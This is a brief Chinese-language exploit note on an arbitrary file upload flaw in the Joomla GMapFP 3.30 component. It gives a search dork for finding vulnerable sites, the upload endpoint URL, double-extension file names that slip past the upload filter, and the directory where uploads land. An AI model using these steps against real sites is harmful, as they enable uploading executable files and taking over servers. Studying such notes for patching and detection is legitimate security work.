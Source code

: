Joomla component GMapFP 3.30 任意文件上传
=========================================

一、漏洞简介
------------

关键字:inurl:\'\'com\_gmapfp\'\'

二、漏洞影响
------------

Joomla Gmapfp Components 3.x

三、复现过程
------------

    http://www.0-sec.org/index.php?option=comgmapfp&controller=editlieux&tmpl=component&task=upload_image
    file.php.png , file2.php.jpeg , file3.html.jpg ,file3.txt.jpg

目录文件路径

    http://www.0-sec.org/images/gmapfp/file.php
    http://www.0-sec.org/images/gmapfp/file.php.png
